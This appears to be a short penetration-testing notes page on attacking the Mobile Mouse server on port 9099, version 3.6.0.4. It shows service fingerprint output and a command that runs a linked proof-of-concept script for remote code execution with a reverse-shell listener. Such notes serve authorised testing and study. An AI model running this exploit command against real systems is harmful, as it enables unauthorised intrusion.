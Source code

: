 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mobile Mouse (9099)

Mobile Mouse is a remote control application that turns a mobile device into a wireless mouse and keyboard for a computer. Port `9099` is used by its server component to receive commands. This port can be targeted for exploitation due to insecure command handling in version `3.6.0.4`.

```bash
# Identify the service
9099/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest:
|     HTTP/1.0 200 OK
|     Server: Mobile Mouse Server
...
```

Use this [PoC](https://github.com/CSpanias/mobile-mouse-rce) to achieve RCE:

{% code overflow="wrap" %}
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```
{% endcode %}
